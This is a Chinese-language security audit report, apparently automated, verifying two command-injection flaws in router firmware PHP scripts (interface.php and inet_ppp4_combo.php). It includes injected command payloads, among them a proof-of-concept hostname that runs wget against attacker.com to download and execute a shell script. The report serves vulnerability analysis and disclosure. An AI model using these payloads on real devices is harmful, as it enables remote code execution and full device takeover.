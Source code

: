 - **文件/目录路径：** `etc/services/INET/interface.php`
- **位置：** `interface.php: chkconnsetupall function`
- **描述：** 在 chkconnsetupall 函数中，$ifname 和 $cmd 参数用于构建连接检查服务命令，没有可见的输入验证。攻击者可能通过控制接口名或计划设置注入命令。触发条件包括函数被调用且参数恶意构造；利用方式涉及命令字符串注入。代码逻辑包括计划设置查询和命令写入。
- **代码片段：**
  ```
  fwrite("a", $_GLOBALS["START"], 'service CHKCONN.'.$ifname.' '.$cmd.'\n');
  fwrite("a", $_GLOBALS["STOP"], 'service CHKCONN.'.$ifname.' stop\n');
  ```
- **备注：** $cmd 源自计划设置（如 $days、$start、$end），可能通过用户界面可控。需要分析数据流从用户输入到这些参数。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `Medium`
- **详细原因：** 安全警报描述准确：在 'chkconnsetupall' 函数中，`$ifname` 和 `$cmd` 参数被直接拼接进 shell 命令（如 'service CHKCONN.'.$ifname.' '.$cmd），没有输入验证或转义。`$cmd` 源自计划设置（`$days`, `$start`, `$end`），这些值通过 `XNODE_getschedule` 等函数获取，可能通过用户界面（如 Web 管理界面）由用户控制。函数在 'WAN.php' 中被调用，路径可达。攻击者模型为已通过身份验证的远程用户（例如，拥有管理权限），可以通过修改计划设置参数注入恶意命令。例如，将 `$days` 设置为 '"; reboot; "' 可导致系统重启。完整攻击链：攻击者通过认证访问管理界面 → 修改计划设置（如天数、开始时间、结束时间）→ 参数传递到 `chkconnsetupall` 函数 → 命令拼接执行 → 命令注入生效。证据来自代码分析：参数直接拼接，无验证逻辑。风险为中等，因为需要认证访问，但注入可能造成系统中断或进一步危害。

## 验证指标

- **验证时长：** 233.09 秒
- **Token 使用量：** 354100

---

## 原始信息

- **文件/目录路径：** `etc/services/INET/inet_ppp4_combo.php`
- **位置：** `inet_ppp4_combo.php 在 lower_dhcp 函数中（具体代码位置约在文件中部，udhcpc 命令拼接处）`
- **描述：** 在 lower_dhcp 函数中，主机名从 '/device/hostname' 获取并直接拼接到 udhcpc 命令中，没有进行适当的转义或验证。攻击者（拥有有效登录凭据的非root用户）可以通过Web界面或API设置恶意主机名（如包含分号或反引号的字符串），当PPP连接使用DHCP模式时，lower_dhcp 函数被调用，生成并执行 udhcpc 命令，导致命令注入。漏洞触发条件：PPP连接配置为DHCP模式，且主机名被修改为恶意值。利用方式：注入任意命令获取root权限，完全控制设备。
- **代码片段：**
  ```
  DIALUP('udhcpc '.$unicast.'-i '.$ifname.' -H '.$hostname.' -p '.$udhcpc_pid.' -s '.$udhcpc_helper.' &');
  ```
- **备注：** 证据基于代码分析，显示直接字符串拼接且无过滤。建议进一步验证主机名是否通过Web界面或API用户可控，并检查包含文件（如 /htdocs/phplib/trace.php）中是否有输入过滤机制。关联文件：/etc/services/INET/options_ppp4.php 可能包含相关配置。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 验证基于以下证据：1) 在文件 'etc/services/INET/inet_ppp4_combo.php' 的 'lower_dhcp' 函数中，主机名通过 get("s", "/device/hostname") 获取并直接拼接到 udhcpc 命令中，没有转义或验证（代码片段：DIALUP('udhcpc '.$unicast.'-i '.$ifname.' -H '.$hostname.' -p '.$udhcpc_pid.' -s '.$udhcpc_helper.' &');）。2) 搜索包含文件（如 /htdocs/phplib/trace.php、xnode.php、phyinf.php）未找到 'get' 函数定义，表明输入可能无过滤。3) 函数调用条件：当 PPP 连接配置为 DHCP 模式时，'lower_dhcp' 被调用（从代码中 else 分支可见）。攻击者模型：拥有有效登录凭据的非 root 用户通过 Web 界面或 API 设置恶意主机名。完整攻击链：攻击者设置主机名为恶意值（如 'test; echo hacked > /tmp/test'）→ 当 PPP 连接使用 DHCP 模式时，'lower_dhcp' 函数执行 → udhcpc 命令拼接主机名并执行 → 命令注入实现任意命令执行（如获取 root 权限）。PoC 步骤：以认证用户身份通过 Web 界面设置主机名为 'test; wget http://attacker.com/shell.sh -O /tmp/shell.sh; sh /tmp/shell.sh;'，然后触发 PPP DHCP 连接，导致下载并执行恶意脚本。漏洞实际可利用，风险高。
